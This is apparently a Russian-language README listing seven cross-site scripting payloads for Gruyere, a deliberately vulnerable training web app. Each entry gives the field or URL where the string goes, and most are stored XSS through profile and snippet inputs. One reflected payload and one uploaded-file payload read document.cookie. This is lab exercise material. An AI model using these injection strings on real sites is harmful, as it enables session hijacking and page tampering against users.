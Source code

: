 # Payloads для gruyere
## Payload 1
На странице редактирования профиля в поле ввода Icon можно вставить строку `'' onerror="alert(23)"`

Тип: Stored XSS
## Payload 2
На странице редактирования профиля в поле ввода homepage можно вставить строку `' onmouseover="alert(32)"`

Тип: Stored XSS
## Payload 3
На странице редактирования профиля в поле ввода profile color можно вставить строку `; font-size:1000px;"' onmouseover="alert('xss')"`

Тип: Stored XSS
## Payload 4
На главной странице в конец url можно вставить `<script>alert(41)</script>` для вызова кастомного скрипта

Тип: Reflected XSS
## Payload 5
На странице создания нового сниппета ввести в поле ввода `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`

Тип: Stored XSS
## Payload 6
На странице редактирования профиля ввести в поле ввода private snippet `< style="background-color:red; width:500px; height:500px; display:block;" onmouseover="alert('xss')" >`

Тип: Stored XSS
## Payload 7
На странице Upload вставить в поле ввода файл *.html, содержащий в себе `<script>alert(document.cookie)</script>`

Тип: Stored XSS
...
